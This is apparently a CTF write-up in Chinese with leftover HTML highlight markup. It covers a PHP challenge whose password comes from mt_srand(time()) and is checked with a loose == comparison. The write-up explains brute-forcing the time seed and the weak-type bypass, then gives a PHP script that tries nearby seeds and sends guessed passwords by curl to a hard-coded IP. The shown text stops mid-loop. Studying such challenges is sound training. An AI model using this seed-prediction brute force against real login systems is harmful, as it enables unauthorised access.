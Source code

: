 session_start();
mt_srand(time());
<span class="hljs-variable">$pwd</span>=create_password();

<span class="hljs-keyword">if</span>(<span class="hljs-variable">$pwd</span>==<span class="hljs-variable">$_GET</span>[<span class="hljs-string">'pwd'</span>])
{
  <span class="hljs-keyword">if</span>(<span class="hljs-variable">$_SESSION</span>[<span class="hljs-string">'userLogin'</span>]==<span class="hljs-variable">$_GET</span>[<span class="hljs-string">'login'</span>])
        <span class="hljs-keyword">echo</span> <span class="hljs-string">"Good job, you get the key"</span>;
}
<span class="hljs-keyword">else</span>
{<span class="hljs-keyword">echo</span> <span class="hljs-string">"Wrong!"</span>;}

<span class="hljs-variable">$_SESSION</span>[<span class="hljs-string">'userLogin'</span>]=create_password(<span class="hljs-number">32</span>).rand();
<span class="hljs-preprocessor">?&gt;</span></span></code></pre>
<p>考点很清楚 爆破种子，<a href="http://wonderkun.cc/index.html/?p=585">以前有类似的题目，附上链接</a> <br>
分析一下逻辑可以得到，第一个随机数mt_srand可以用时间种子暴力破解 <br>
第二个rand可以利用弱类型比较绕过 <br>
左后附上代码</br></br></br></p>
<pre class="prettyprint"><code class="language-php hljs "><span class="hljs-preprocessor">&lt;?php</span> 
<span class="hljs-function"><span class="hljs-keyword">function</span> <span class="hljs-title">create_password</span><span class="hljs-params">(<span class="hljs-variable">$pw_length</span> =  <span class="hljs-number">10</span>)</span>
{</span>
<span class="hljs-variable">$randpwd</span> = <span class="hljs-string">""</span>;
<span class="hljs-keyword">for</span> (<span class="hljs-variable">$i</span> = <span class="hljs-number">0</span>; <span class="hljs-variable">$i</span> &lt; <span class="hljs-variable">$pw_length</span>; <span class="hljs-variable">$i</span>++)
{
<span class="hljs-variable">$randpwd</span> .= chr(mt_rand(<span class="hljs-number">33</span>, <span class="hljs-number">126</span>));
}
<span class="hljs-keyword">return</span> <span class="hljs-variable">$randpwd</span>;
}

<span class="hljs-comment">//$cookie_file = dirname(__FILE__).'/cookie.txt';</span>
<span class="hljs-comment">//使用上面保存的cookies再次访问</span>
<span class="hljs-variable">$i</span> = <span class="hljs-number">80</span>;
<span class="hljs-variable">$time</span> = time();
<span class="hljs-keyword">while</span>(<span class="hljs-variable">$i</span>--)
{
mt_srand(<span class="hljs-variable">$time</span>+<span class="hljs-variable">$i</span>);
<span class="hljs-keyword">echo</span>  time();
<span class="hljs-keyword">echo</span> <span class="hljs-string">'hhh'</span>;
<span class="hljs-keyword">echo</span> <span class="hljs-variable">$time</span>+<span class="hljs-variable">$i</span>;
<span class="hljs-variable">$s</span> = create_password();
<span class="hljs-variable">$url</span> = <span class="hljs-string">"http://117.34.111.15:85/index.php?pwd=$s&amp;login="</span>;
<span class="hljs-variable">$ch</span> = curl_init(<span class="hljs-variable">$url</span>);
curl_setopt(<span class="hljs-variable">$ch</span>, CURLOPT_HEADER, <span class="hljs-number">0</span>);
curl_setopt(<span class="hljs-variable">$ch</span>, CURLOPT_RETURNTRANSFER, <span class="hljs-keyword">true</span>);
<span class="hljs-comment">//curl_setopt($ch, CURLOPT_COOKIEFILE, $cookie_file); //使用上面获取的cookies</span>
<span class="hljs-comment">//curl_setopt($ch, CURLOPT_COOKIEJAR,  $cookie_file); //存储cookies</span>
<span class="hljs-variable">$response</span> = curl_exec(<span class="hljs-variable">$ch</span>);
curl_close(<span class="hljs-variable">$ch</span>);
<span class="hljs-keyword">echo</span> <span class="hljs-variable">$response</span>;